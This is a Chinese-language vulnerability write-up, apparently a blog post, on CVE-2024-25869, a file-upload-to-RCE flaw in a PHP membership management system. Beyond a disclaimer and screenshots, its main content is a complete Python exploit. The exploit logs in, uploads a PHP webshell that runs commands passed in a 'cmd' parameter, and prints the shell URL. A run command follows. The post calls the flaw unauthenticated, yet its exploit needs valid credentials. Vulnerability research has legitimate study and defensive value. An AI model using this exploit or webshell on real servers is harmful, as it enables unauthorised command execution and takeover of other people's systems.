 #  CVE-2024-25869   
原创 fgz  AI与网安   2024-04-09 07:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
PHP会员管理系统-不受限制的文件上传到RCE漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Membership Management System是一个  
开源项目  
，地址如下```
https://codeastro.com/membership-management-system-in-php-with-source-code/
```  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
会员管理系统是一个开源项目，此漏洞的存在使未经身份验证的攻击者能够将.php文件上载到Web服务器，并在运行应用程序的用户的权限下执行代码。  
  
  
  
04  
  
—  
  
环境搭建  
  
  
1. 下载代码，解压后放到小皮面板的网站路径下  
  
```
https://codeastro.com/membership-management-system-in-php-with-source-code/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueTtZOGdMvcicpBuGgSGFe0rWZicNFDM31SJzVK2Vn6reDlEiafQutXLDgoQ/640?wx_fmt=png&from=appmsg "")  
  
2.创建数据库  
```
```  
```
create database membershiphp;
```  
```
```  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueTibn9kzbONuDy19FR3GJssHV6uf2XONax4n5PHP687CawUvW4auAkZYg/640?wx_fmt=png&from=appmsg "")  
```
```  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueTpkJLnbibjaSLJ9iclecZ5XOP8CO26wgKv6wlRNtnibTxkSRYBQfqJibibEA/640?wx_fmt=png&from=appmsg "")  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueTsicLgWatkHWSDupewrvBOQYnLGaAnwuUPTTkfl9CqIeq7wT5G5PxgQA/640?wx_fmt=png&from=appmsg "")  
```
```  
```
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueTAt9usSxDNcRqekaibB5ewFzSEqbneF49QZVXj73zcFaDOl5nJUI2LEQ/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueTv4Zx62lmLK5hnMoDSzbT9ZhGyjq1P4ALVQqPdacE67RdM9Vwp3iaCFA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueT9dicf8MNOBSYcMLKJcJwNwPwcS9luQ27jzkdaFQXMicEoB03Inj4feFg/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
漏洞扫描 poc  
  
  
python版本poc文件内容如下  
```

import requests
import argparse
import uuid

def get_session_cookie(base_url, username, password):
    login_url = f"{base_url}index.php"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': base_url,
        'Referer': f'{base_url}index.php',
    }
    
    data = {'email': username, 'password': password, 'login': ''}
    
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    
    session = requests.Session()
    session.post(login_url, headers=headers, data=data, proxies=proxies, verify=False)
    
    return session.cookies.get('PHPSESSID')

def upload_file(base_url, phpsessid):
    upload_url = f"{base_url}settings.php"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Referer': f'{base_url}settings.php',
    }
    
    cookies = {'PHPSESSID': phpsessid}
    
    # Generate a random filename
    random_filename = f"{uuid.uuid4()}.php"
    
    files = {
        'systemName': (None, 'Membership System'),
        'logo': (random_filename, "<?php system($_GET[\"cmd\"]);?>", 'application/x-php'),
        'currency': (None, '$'),
        'updateSettings': (None, ''),
    }
    
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    
    response = requests.post(upload_url, headers=headers, cookies=cookies, files=files, proxies=proxies, verify=False)
    
    if "success" in response.text.lower():
        print(f"File uploaded successfully. Path: {base_url}uploads/{random_filename}?cmd=id")
        return f"{base_url}uploads/{random_filename}"
    else:
        print("File upload failed")
        return None

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Login and Upload Script with Random Filename')
    parser.add_argument('-u', '--url', required=True, help='Base URL including MembershipM-PHP path')
    parser.add_argument('-l', '--login', required=True, help='Username for login')
    parser.add_argument('-p', '--password', required=True, help='Password for login')

    args = parser.parse_args()

    phpsessid = get_session_cookie(args.url, args.login, args.password)
    if phpsessid:
        upload_file(args.url, phpsessid)
    else:
        print("Failed to retrieve PHPSESSID. Cannot proceed with file upload.")

```  
  
运行POC  
```
python3 script.py -u http://localhost/MembershipM-PHP/ -l 'email@mail.com' -p 'password'
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BMvtql89yXXI17aiaCjqXueTHhdEBFJt7xVp6xwiapliaoVYNEMc1c67C7LchEB7kO10wDazpHoHjCvw/640?wx_fmt=png&from=appmsg "")  
  
  
  
07  
  
—  
  
修复建议  
  
  
开源项目，自行修复。  
  
  
